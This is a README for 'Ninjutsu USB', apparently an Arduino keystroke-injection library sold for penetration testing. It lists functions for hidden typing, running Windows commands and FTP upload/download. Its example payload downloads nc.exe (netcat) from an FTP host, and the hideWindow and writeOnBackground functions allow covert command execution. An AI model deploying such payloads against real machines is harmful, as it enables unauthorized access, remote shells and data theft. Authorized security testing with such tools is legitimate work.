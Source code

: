 <hr>
<h5>Ninjutsu USB, More info => https://www.ethic.ninja/</h5>
<hr>

<b>DISCLAIMER</b>: Ninjutsu USB is designed to be used in testing and discovering flaws in ones own network with the aim of fixing the flaws detected, <b>DO NOT</b> use the program on networks or devices for which you dont have permission, we are not responsible for whatever damage you cause by using this software or hardware.
<hr/> 


NinjaKeyboard Function List
----
<b>pressAndRelease</b> = Press a key or combination of keyboard and release. usage : pressAndRelease(key_ALT, key_TAB)</br>
<b>press</b> = Press a key or combination of keyboard without release. usage : press(key_ALT, key_TAB)</br>
<b>release</b> = release a key or combination of keyboard. usage : release()</br>
<b>echo</b> = write a text without enter/newline/return. usage : echo("text")</br>
<b>echoEnter</b> = write the text and enter/newline/return. usage : echoEnter("text")</br>
<b>sleep</b> = delay or sleep for "n" milisecond. usage : sleep(5)</br>
<b>winRun</b> = open Windows Run and type a Windows command. usage : winRun("command")</br>
<b>hideWindow</b> = hide an active window not minimize. usage : hideWindow()</br>
<b>writeOnBackground</b> = make the window is not visible, and keep writing. usage : writeOnBackground("text")</br>
<b>minimizeWindow</b> = minimize an active window. usage : minimizeWindow()</br>
<b>winFTP</b> = download a file from FTP server or upload file to FTP server. usage : winFTP("put/get/mput/mget","FTPusername","FTPpassword","FTPhost","FTPport","filename")</br>
<b>done</b> = Turn the LED off when payload is loaded. usage : done()</br>


Example Payload
----
```c
#include <NinjaKeyboard.h>

EthicNinjaKeyboard en;

void setup()
{
  //Inisialisasi program
  en.init(1500);
  //Download single file
  en.winFTP("get","user_ftp","pass_ftp","host_ftp", "port_ftp","nc.exe");
}

void loop() {
  
}


```
[More Payload](https://github.com/EthicNinja/Ninjutsu-USB/tree/master/libraries/NinjaKeyboard/examples)
